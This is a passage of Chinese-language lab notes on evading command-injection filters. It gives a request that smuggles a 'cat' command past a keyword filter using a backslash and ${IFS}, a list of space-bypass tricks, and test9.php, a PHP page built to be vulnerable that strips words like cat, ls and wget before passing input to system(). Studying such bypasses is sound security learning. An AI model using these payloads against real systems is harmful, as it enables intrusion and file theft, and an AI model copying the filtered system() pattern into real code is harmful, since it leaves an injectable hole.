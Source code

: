 `http://10.101.177.100:9999/test9.php?cmd=./%27;c\at${IFS}test9.php;%27`

![](assets/markdown-img-paste-20180416163449594.png)


#### 空格绕过

其实上面已经用到`${IFS}`演示绕过了  

```
绕过空格
${IFS}、$IFS、$IFS$9(貌似1-9都可以)
或者在读取文件的时候利用重定向符
<
```

test9.php
```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```
